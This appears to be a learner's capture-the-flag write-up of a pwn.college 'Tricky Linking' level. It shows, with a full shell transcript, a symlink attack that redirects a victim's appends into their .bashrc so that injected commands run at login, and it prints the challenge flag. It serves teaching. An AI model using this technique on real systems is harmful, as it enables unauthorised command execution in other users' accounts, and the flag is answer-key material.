 # Silly Shenanigins

## Tricky Linking
Okay, Zardus has wised up! No more sharing the home directory: despite the reduced convenience, Zardus has moved to sharing /tmp/collab. He's made that directory world-readable and has started a list of evil commands to remember!

### Objective
In this challenge, when you run /challenge/victim, Zardus will add cat /flag to that list of commands:

```bash
hacker@dojo:~$ /challenge/victim

Username: zardus
Password: **********
zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@dojo:~$ exit
logout

hacker@dojo:~$
```

Recall from the previous level that, having write access to /tmp/collab, the hacker user can replace that evil-commands.txt file. Also remember from Comprehending Commands that files can link to other files. What happens if hacker replaces evil-commands.txt with a symbolic link to some sensitive file that zardus can write to? Chaos and shenanigans!

You know the file to link to. Pull off the attack, and get /flag.

### Solve 
**Flag:** `pwn.college{oxItmq19WKBQaiNf5lTvlXSOt3L.QXxQTM3EDLygjN0czW}`

- In this challenge, initially I misunderstood and was running the `/challenge/victim` command before creating the link. That way, `cat /flag` was being written in the evil-commands.txt file but it wasn't going to the target file where the link would have taken it. So I corrected that mistake.
- Then I thought that, since we can't access the .bashrc file of Zardus, I can make a link to the .bashrc file of the /home/hacker or the /tmp/collab directories and then use them to get the flag. But once again it was a mistake on my part. Since the challenge is running in the home directory of the zardus user, I need to make a link to it only.
- So when my other attempts failed, I finally made the link between .bashrc file of zardus and the evil-commands.txt file. Then I ran the challenge two time. Once to get the `cat /flag` command in the .bashrc file and then again to execute this command when the challenge starts. That way I got the flag.

```bash
hacker@shenanigans~tricky-linking:/tmp/collab$ ln -s .bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:/tmp/collab$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:/tmp/collab$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:/tmp/collab$ ./.bashrc
bash: ./.bashrc: Permission denied
hacker@shenanigans~tricky-linking:/tmp/collab$ cat ./.bashrc
cat /flag
cat /flag
hacker@shenanigans~tricky-linking:/tmp/collab$ rm evil-commands.txt
hacker@shenanigans~tricky-linking:/tmp/collab$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:/tmp/collab$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:/tmp/collab$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{oxItmq19WKBQaiNf5lTvlXSOt3L.QXxQTM3EDLygjN0czW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```

### New Learnings
1. We can make links to the .bashrc file even when we cannot write into it. Through those links we can add the commands we want into it and when it runs, those commands get executed. 
